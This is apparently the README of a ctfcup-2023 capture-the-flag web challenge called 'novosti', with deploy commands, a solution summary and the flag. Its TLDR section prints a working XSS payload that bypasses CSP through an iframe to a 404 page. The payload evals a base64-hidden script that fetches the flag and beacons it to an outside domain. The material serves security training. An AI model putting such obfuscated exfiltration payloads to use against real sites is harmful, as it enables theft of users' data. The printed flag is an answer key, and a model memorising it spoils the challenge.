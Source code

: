 # web | novosti

![novosti share page](./screenshots/novosti.png)

## Information

TODO

[https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru](https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru)

## Deploy

1. Create flag secret in deploy directory.
2. Create admin token secret in deploy directory.
3. Launch the compose project.

```sh
cd deploy
echo "ctfcup{flag}" > novosti-flag
echo "random-token" > novosti-admin-token
docker compose -p web-novosti up --build -d
```

## Public

Provide zip file: [public/novosti.zip](public/novosti.zip).

## TLDR

XSS, use iframe leading to 404 in order to bypass CSP

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{b4by-1fr4m3-x55-a4371ea843fc145f}
